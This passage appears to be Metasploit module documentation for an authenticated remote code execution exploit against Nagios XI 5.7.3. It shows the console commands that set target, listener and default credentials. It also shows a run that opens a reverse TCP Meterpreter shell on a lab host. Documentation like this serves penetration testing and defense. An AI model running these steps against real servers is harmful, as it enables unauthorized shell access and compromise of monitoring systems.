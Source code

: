 ```
   0   Linux (x86/x64)


msf exploit(linux/http/nagios_xi_mibs_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.1.12:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.7.3
[+] The target appears to be vulnerable.
[*] Sending stage (980808 bytes) to 192.168.1.16
[*] Command Stager progress - 100.00% done (773/773 bytes)
[*] Meterpreter session 1 opened (192.168.1.12:4444 -> 192.168.1.16:55158) at 2021-04-01 13:18:20 -0400

meterpreter > getuid
Server username: apache @ localhost.localdomain (uid=48, gid=48, euid=48, egid=48)
```
### Nagios XI 5.7.3 running on CentOS 7 - CMD target
```
msf > use exploit/linux/http/nagios_xi_mibs_authenticated_rce
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set rhosts 192.168.1.16
rhosts => 192.168.1.16
msf exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set lhost 192.168.1.12
lhost => 192.168.1.12
msf exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set password nagiosadmin
password => nagiosadmin
msf exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set target 1
target => 1
msf exploit(linux/http/nagios_xi_mibs_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_mibs_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so
                                              . This includes signing the license agreement.
   PASSWORD        nagiosadmin      yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          192.168.1.16     yes       The target host(s), range CIDR identifier, or hosts file with synt
                                              ax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an
                                              address on the local machine or 0.0.0.0 to listen on all addresses
                                              .
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


```